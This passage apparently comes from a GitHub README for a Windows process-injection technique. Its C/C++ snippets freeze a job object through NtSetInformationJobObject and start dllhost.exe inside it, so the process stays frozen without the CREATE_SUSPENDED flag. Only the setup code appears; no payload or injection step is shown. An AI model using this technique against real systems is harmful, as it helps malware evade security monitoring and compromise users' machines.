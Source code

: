 ### 🔄 Injection Flow:

![e93c1b79f5a291a0e4caf7165337d109_MD5](https://github.com/user-attachments/assets/668707e2-669c-4041-998c-64988612a3d0)


### ⚙️ Some Technical Implementation

#### ❄️🧊 Job-Create and Freezing:


```c
NTSTATUS creationJob = NtCreateJobObject(&hJob, STANDARD_RIGHTS_ALL | 63, NULL);
 if (!NT_SUCCESS(creationJob)) {
     SetColor(FOREGROUND_RED);
     printf("Error: 0x%X\n", creationJob);
     CloseHandle(hJob);
     return -1;
 }


 JOBOBJECT_FREEZE_INFORMATION freezeInfo = { 0 };
 freezeInfo.FreezeOperation = 1; // Initiate freeze
 freezeInfo.Freeze = TRUE;

 NTSTATUS freezeStatus = NtSetInformationJobObject(hJob, (JOBOBJECTINFOCLASS)JobObjectFreezeInformation, &freezeInfo, sizeof(freezeInfo));
 if (!NT_SUCCESS(freezeStatus)) {
     SetColor(FOREGROUND_RED);
     printf("Error: 0x%X\n", freezeStatus);
     CloseHandle(hJob);
     return -1;
 }
```


#### 🚫 Process Creation Without Flags


```c
// Create process in the job (e.g. dllhost.exe)
PROCESS_INFORMATION pi = { 0 };
if (!CreateProcessW(
    L"C:\\Windows\\System32\\dllhost.exe",
    NULL,
    NULL,
    NULL,
    FALSE,
    EXTENDED_STARTUPINFO_PRESENT,
    NULL,
    NULL,
    &siEx.StartupInfo,
    &pi))
{
    std::cerr << "CreateProcessW failed: " << GetLastError() << std::endl;
    DeleteProcThreadAttributeList(siEx.lpAttributeList);
    HeapFree(GetProcessHeap(), 0, siEx.lpAttributeList);
    CloseHandle(hJob);
    return -1;
}
std::cout << "[+] Started Process in Job! PID: " << pi.dwProcessId << std::endl;

// Release attribute list
DeleteProcThreadAttributeList(siEx.lpAttributeList);
HeapFree(GetProcessHeap(), 0, siEx.lpAttributeList);
```

